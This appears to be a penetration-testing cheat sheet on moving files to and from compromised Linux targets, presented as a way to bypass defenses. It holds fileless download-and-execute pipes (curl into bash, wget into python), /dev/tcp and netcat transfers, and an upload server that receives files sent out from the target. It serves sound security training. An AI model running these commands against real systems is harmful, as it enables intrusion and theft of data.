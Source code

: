 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Linux - File Tranfer

Transferring files to or from Linux machines is crucial in various scenarios. Below are some methods for file transfer that could help to accomplish it and even bypass defenses:

## &#x20;<mark style="color:orange;">Download to the system</mark>

* &#x20;Using base64 encoding

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
md5sum $file    #Check the hash of the file
cat $file |base64 -w0 #Convert content and print it in one line

#On the target machine
echo 'b64String' | base64 -d > $file
md5sum $file #Compare the hash to confirm the integrity of the file
```
{% endcode %}

***

* From a web to the target system

{% code overflow="wrap" lineNumbers="true" %}
```bash
wget https://$URL/$file -O /tmp/$outFile
curl -o /tmp/$outFile https://$URL/$file
```
{% endcode %}

***

* Download and execute it directly in memory (fileless)

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl https://$URL/$file | bash
wget -qO- https://$URL/$pythonFile | python #Also can be done with Python
```
{% endcode %}

## <mark style="color:orange;">Download using installed programming languages in the target</mark>

* Mount an HTTP server with any programming language and download contents from it

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On the target machine
python -m http.server $port
python2.7 -m SimpleHTTPServer $port
php -S 0.0.0.0:$port
ruby -run -ehttpd . -p$port

#On our machine
wget $TargetIP:$port/$file
```
{% endcode %}

## &#x20;<mark style="color:orange;">Download from web server using the /dev/TCP device file</mark>

* Use the built-in device file to connect to the server and download a file via a petition

{% code overflow="wrap" lineNumbers="true" %}
```bash
exec 3<>/dev/tcp/$IP/$port
echo -e "GET /$pathToFile HTTP/1.1\n\n">&3
cat <&3 #Confirm checking the response
```
{% endcode %}

## <mark style="color:orange;">Download using SSH</mark>

* Start the SSH service to transfer files

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt #Check service port, by default 22

#On the target machine
scp $user@$IP:/$pathTofile ./
```
{% endcode %}

## <mark style="color:orange;">Upload to a web server</mark>

* &#x20;Use the _uploadserver_ module to mount an upload server using HTTPS

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
pip3 install uploadserver
python3 -m uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
sudo python3 -m uploadserver 443 --server-certificate ./server.pem

#On the target system
curl -X POST https://$file/upload -F 'files=@$pathTofile' -F 'files=@$pathToFile2' --insecure
```
{% endcode %}

## <mark style="color:orange;">Upload using SSH</mark>

* Use the SCP utility to upload files

{% code overflow="wrap" lineNumbers="true" %}
```bash
scp $file $targetUser@$targetIP:$pathToDestinationFolder
```
{% endcode %}

## <mark style="color:orange;">Transfer using Netcat and Ncat</mark>

* From our machine to the target creating a listener on the target

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#On the target machine
<strong>nc -nvlp $port > $file   #Netcat
</strong>ncat -lp $port --recv-only > $file #Ncat

#On our machine
wget -q $fileURL #Download file
nc -q 0 $targetIP $port &#x3C; $file #Netcat
ncat --send-only $targetIP $port &#x3C; $file #Ncat
</code></pre>

***

* From our machine to the target connecting to our listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo nc -nvlp 443 -q 0 < $file
sudo ncat -lp 443 --send-only < $file

#On the target machine
nc $ourIP 443 > $file
ncat $ourIP 443 --recv-only > $file
```
{% endcode %}

***

* Using the /dev/tcp folder to receive the file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo nc -nvlp 443 -q 0 < $file
sudo ncat -lp 443 --send-only < $file

#On the target machine
cat < /dev/tcp/$ourIP/443 > $file
```
{% endcode %}
